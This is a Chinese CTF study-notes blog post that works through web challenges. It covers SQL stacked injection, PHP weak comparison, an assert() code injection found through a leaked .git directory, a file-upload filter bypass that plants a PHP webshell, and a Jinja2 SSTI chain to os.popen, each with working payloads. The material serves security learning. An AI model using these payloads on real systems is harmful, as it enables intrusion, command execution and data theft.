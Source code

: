 ```yaml
---
layout: post 
title: "2020.3.15学习总结"
date: 2020-03-15
author: su29029
tags: Web
---
```

### sql堆叠注入[stack injection]
当我们无法使用select等查询语句时[通常来说是被过滤了]，我们可以考虑尝试堆叠注入。所谓堆叠注入，顾名思义，就是一次性执行多条sql语句。我们知道sql语句以分号```;```结束，故如果我们使用分号提前结束前一条sql语句，然后再在分号后面执行我们想执行的语句，最后注释掉原本后面的sql语句段，就能实现堆叠注入的效果，从而造成了sql注入。  
不过sql堆叠注入的利用条件有限，通常只有在后台sql允许一次执行多条语句时才能利用。以一个题来举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5417&page=1  
拿到题目先尝试```'```发现sql报错，故判断存在sql注入点。随后```1'or '1'='1```，发现有回显，随后借助```order by```发现有两列，但尝试union select查询时发现了下面这条提示：  
<img src="/assets/img/20200315学习总结/20200315学习总结1.jpg">  
发现select，update，drop等等关键词都被过滤了，而且发现通过大小写，加注释等方式无法绕过，故只能放弃这一注入方式。随后尝试堆叠注入。  
尝试显示一下所有数据库和所有数据表。  
<img src="/assets/img/20200315学习总结/20200315学习总结2.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结3.jpg">  
随后显示出words表和1919810931114514表的列：  
<img src="/assets/img/20200315学习总结/20200315学习总结4.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结5.jpg">  
发现在19198109931114514表中存在我们想要的flag，且查询的时候是查询words表里的id，故我们尝试更改表名并把flag列名修改成id列名，19198109931114514表名修改成words表名。  
最终payload：```1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100)```  
<img src="/assets/img/20200315学习总结/20200315学习总结6.jpg">  
最后通过```1'or '1'='1 #```得到flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结7.jpg">  
### php == 弱类型比较
php中有两种比较方式，```==```和```===```，其中==在进行比较的时候，会先将字符串类型转化成相同，再比较，而===在进行比较的时候，会先判断两种字符串的类型是否相等，再比较。举几个例子：  
<img src="/assets/img/20200315学习总结/20200315学习总结8.jpg">  
当php比较字符串和数字时，会将字符串向数字尝试转换，字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则值为0。但当字符串中出现.,e,E等字符时，如果字符前后都可转化为合法数字，则.会使字符串转化为小数，e,E会将字符串转换为科学计数法表示的数字。布尔值和数字比较时，true和大于等于1的数弱类型相等，false和0相等。  
### git源码泄露
git是一个是一个开源的分布式版本控制系统，可以有效、高速地处理从很小到非常大的项目版本管理。而初始化一个git目录时，会产生一个.git的文件夹，如果没有处理好则会造成git源码泄露。git源码可以通过GitHack来获取文件。以一个题目来举例子。  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5002&page=1  
拿到题目收集一下信息，F12发现element的注释里有个flag，访问发现为空。发现about页面提示使用了git，判断存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结9.jpg">  
访问/.git/目录，发现果然存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结10.jpg">  
随后使用[GitHack](https://github.com/lijiejie/GitHack)将源码还原。  
<img src="/assets/img/20200315学习总结/20200315学习总结11.jpg">  
打开flag.php，发现内容是空的。  
<img src="/assets/img/20200315学习总结/20200315学习总结12.jpg">  
打开index.php看看，发现了关键代码：  
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
<img src="/assets/img/20200315学习总结/20200315学习总结13.jpg">  
发现对page的内容只过滤了```..```，故尝试通过闭合连接字符串和执行系统命令来获取flag。故构造如下payload：```'.system("cat ./templates/flag.php").'```最后在注释里面获得flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结14.jpg">  
### 文件上传
题目链接：https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Upload
打开题目发现有一个文件上传的接口，随便上传一个1.jpg看看，发现提示Not Image。  
<img src="/assets/img/20200315学习总结/20200315学习总结15.jpg">  
修改请求，写入一句话木马，并修改文件名为1.php，再次上传，发现提示错误。
<img src="/assets/img/20200315学习总结/20200315学习总结16.jpg">  
使用phtml后缀绕过，再次提交，依然发现错误。  
<img src="/assets/img/20200315学习总结/20200315学习总结17.jpg">  
说明后台对文件内容也进行了分析，提示发现```<?```故尝试通过```<script language="php"></script>```绕过，发现成功上传木马。  
<img src="/assets/img/20200315学习总结/20200315学习总结18.jpg">  
下面就简单了，使用蚁剑连接。然而发现直接连接/1.phtml会报错，故猜测/upload/1.phtml路径，发现成功连接。  
<img src="/assets/img/20200315学习总结/20200315学习总结19.jpg">  
(发现了好多不同的文件后缀，应该除了.phtml其他格式应该也能绕过吧，回头都试试嗯)
后面搜一搜服务器，flag就到手了。  
<img src="/assets/img/20200315学习总结/20200315学习总结20.jpg">  
### python flask 模板注入
python的flask框架使用Jinja2作为模板渲染引擎，如果render_template_string函数在渲染模板的时候使用了%s来动态的替换字符串，这里将造成ssti漏洞。Jinja2中{{}}是变量包裹标识符，它会将{{}}中的内容当作变量解析替换，如果我们的url中也含有{{}}的话，就会造成ssti。  
以一个题目举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=1  
打开题目提示python template injection，尝试{{2×3}}发现表达式被执行，故存在ssti。  
<img src="/assets/img/20200315学习总结/20200315学习总结21.jpg">  
我们现在需要考虑借助这个ssti获得服务器的控制台权限。因为是python的框架，所以我们需要使用python来获取控制台权限，我们想到了```os.system```和```os.popen```两个方法，前者返回**退出状态码**，后者以**file形式**返回**输出内容**。这里我们要看到内容，故选择```os.popen```。    

那么怎么找到这个方法呢，python为我们提供了完整的查找链：  
```
__class__:返回对象所属类；
__mro__:返回一个类所继承的基类元组，方法在解析按照元组的顺序解析；
__base__:返回该类所继承的基类；
__subclasses__:每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的引用的列表；
__init__:类的初始化方法；
__globals__:对包含函数全局变量的字典的引用。
```  

ok，我们可以开始操作了。  
首先找到当前变量所在的类。    
```
{{''.__class__}}
```
服务器返回：  
```
URL http://111.198.29.45:59359/<type 'str'> not found
```
这个回复告诉我们，当前变量所在的类是str。   
随后我们找到它的基类。   

```
{{''.__class__.__mro__}}
```  
服务器返回：  
```
URL http://111.198.29.45:59359/(<type 'str'>, <type 'basestring'>, <type 'object'>) not found
```  
基类也有了。   
下一步找到任意一个基类的引用列表。  
```
{{''.__class__.__mro__[2].__subclasses__()}}
```  

服务器返回了一大串，我们找到os所在的```site._Printer```类，它在第72位，即```__subclasses__()[71]```。   
于是我们可以开始读取命令行输出了。   
```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
```
服务器返回：  
```
URL http://111.198.29.45:59359/fl4g index.py not found
```  
最后一步，读取fl4g。  
```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()}}
```  
服务器返回：  
```
URL http://111.198.29.45:59359/ctf{f22b6844-5169-4054-b2a0-d95b9361cb57} not found
```  
flag到手。  
